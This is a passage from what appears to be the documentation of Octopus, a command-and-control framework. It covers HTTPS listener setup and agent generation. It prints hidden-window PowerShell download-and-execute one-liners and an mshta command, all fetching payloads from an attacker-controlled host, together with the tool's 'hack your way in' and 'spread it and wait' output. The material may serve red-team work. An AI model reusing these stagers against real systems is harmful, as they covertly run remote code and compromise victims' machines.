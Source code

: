 Octopus >>
```

The `listen_https` command takes the following arguments to start:

  - BindIP   : which is the IP address that will be used by the listener
  - BindPort : which is the port you want to listen on
  - Hostname : will be used to request the payload from
  - Interval : how may seconds that agent will wait before check for commands
  - URL page : name will hold the payload
  - Listener_name : listener name to use
  - certficate_path : path for valid ssl certficate (called fullchain.pem for letsencrypt certficates)
  - key_path        : path for valid key for the ssl cerficate (called key.pem for letsencrypt certficates)

Please note that you need to provide a valid SSL certficate that is associated with the domain used.


### Generate agents

**Powershell oneliner**

To generate an agent for the listener `operation1` we can use the following command:

`generate_powershell operation1`

and we will get the following result:
```
Octopus >>generate_powershell operation1
#====================
1) powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

2) powershell -w hidden "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

3) powershell -w hidden "$m = (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');Invoke-Expression $m;"

Note - For Windows 7 clients you may need to prefix the payload with "Add-Type -AssemblyName System.Core;"
       e.g. powershell -w hidden "Add-Type -AssemblyName System.Core;IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.1:8080/page.php');"

Hack your way in ;)
#====================

```

Now we can use this oneliner to start our agent.

**HTA oneliner**

To generate a HTA oneliner for the listener1 `operation1` we can use the following command:

`generate_hta operation1`

and we will get the following results:

```
Octopus >>generate_hta operation1
#====================
mshta http://192.168.178.1:8080/hta
spread it and wait ;)
#====================